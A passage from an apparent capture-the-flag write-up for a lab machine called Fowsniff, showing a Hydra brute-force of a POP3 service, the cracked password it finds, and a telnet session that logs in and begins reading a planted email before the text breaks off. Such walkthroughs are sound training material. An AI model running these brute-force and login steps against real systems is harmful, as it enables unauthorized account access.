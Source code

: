 
#### Using Hydra:

```bash
➜  hydra -L usernames.txt -P passwords.txt -f 10.10.148.76 pop3 -V
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-17 23:06:51
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://10.10.148.76:110/

<< REDACTED >>

[110][pop3] host: 10.10.148.76   login: seina   password: scoobydoo2
[STATUS] attack finished for 10.10.148.76 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-17 23:07:43
```
{: .nolineno }


### Can you connect to the pop3 service with her credentials? What email information can you gather?

### Looking through her emails, what was a temporary password set for her?

```bash
➜  telnet 10.10.148.76 110
Trying 10.10.148.76...
Connected to 10.10.148.76.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
```